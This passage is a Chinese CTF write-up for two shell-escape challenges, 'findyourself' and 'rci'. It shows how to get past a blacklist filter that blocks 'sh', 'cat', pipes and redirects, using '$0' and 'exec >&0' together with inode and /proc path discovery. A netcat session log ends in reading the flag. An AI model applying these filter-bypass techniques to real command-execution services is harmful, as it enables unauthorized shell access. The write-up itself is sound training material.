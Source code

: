 check2过滤掉:`"sh", "*", "cat", "..", "&", "|", ">", "<"`，并且由于关闭了stdout和stderro，所以得不到输出
也可以通过 `ls -al /proc/self/` 或者 `ls -al /proc/self/cwd`获取当前路径，通过`$0`绕过check2，然后重定向到输入：

```
$0
exec >&0
cat /flag 
```

### rci

分析与findyourself一致，只是此题不能通过 `ls -al /proc/self/`来获取绝对路径,所以只能通过 `-ali`来获得路径：

> ls -l # 以列表格式显示
> ls -a # 不隐藏以.开头的文件
> ls -i # 显示文件inode,其中inode唯一

打开一个终端，然后键入`ls -ali`可以得到当前文件夹下的inode,选择18631212（.代表当前文件夹），再开一个终端利用grep过滤，`ls -ali /tmp`得到当前路径，之后返回当前终端，`$0`绕过check2，得到flag

```
nop@nop-pwn:~/Desktop$ nc node3.buuoj.cn 29623
正在送imagin去小黑窝~
Level Up ! 获得道具 ls
ls -ali
total 24
18631212 drwxr-xr-x 2 1000 1000  4096 Apr  2 04:32 .
17328166 drwxrwx--- 1    0 1000 20480 Apr  2 04:32 ..
[你得到了一些关于imagin的线索]
不过......Ta在哪里呢?
/tmp/R0OM#0731741966
恭喜你找到了imagin的小黑窝！氮素Ta已经被藕送走啦！哈哈哈哈

Level Up ! 获得道具 残缺的shell
$0
你成功地修复了shell，快去找imagin叭~
exec >&0
pwd
/tmp/R0OM#0731741966
cd ../..
cd imagin
ls
bin
dev
imagin
lib
lib32
lib64
libx32
rci
tmp
cat imagin
flag{5fcd2cea-5330-4d33-b21a-291eec874be3} 
```
